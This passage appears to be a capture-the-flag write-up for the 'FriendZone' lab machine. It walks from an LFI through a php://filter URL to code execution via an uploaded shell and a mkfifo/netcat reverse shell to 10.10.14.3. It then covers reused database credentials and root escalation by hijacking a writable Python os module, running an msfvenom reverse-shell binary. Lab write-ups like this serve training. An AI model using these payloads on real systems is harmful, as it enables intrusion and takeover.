 We could also have found that `/js/js` page by checking the source on the admin page.


### Messing around with Admin

OK so we found those creds, and we've had multiple hints to find another admin, and here one is...

The creds get us straight in, no messing around.

Then we're told to go to "dashboard.php" although I'm still going to scan this thing, just to be sure. 

Found that the "pagename" parameter was vulnerable to LFI.

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login`

Upload the SHELL directly the the SMB share, moron.

user:a9ed20acecd6c5b6b52f474e15ae9a11

`/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'`

`cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.3+1223+>/tmp/f`

`https://administrator1.friendzone.red//dashboard.php?image_id=a.jpg&cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.3+1223+>/tmp/f&pagename=/etc/Development/backdoor`

Once we're on the box we can do the following:

`friend:x:1000:1000:friend,,,:/home/friend:/bin/bash` (wtf is this?)

```bash
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

Used those credentials to log in via SSH.

First we used [PsPy](https://github.com/DominicBreuker/pspy) to watch the processes that run as root

Spotted a python file being ran on a timer

Found that it imported the "os" module, and that the os.py module file was writable.

```python
import subprocess
subprocess.check_output(["/tmp/beeeep/iwconfig"])
```

"iwconfig" in this case is actually the following:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1337 -f elf > iwconfig`

Initially we thought that there was a way to get through via MySQL. But that was just a rabbit hole.
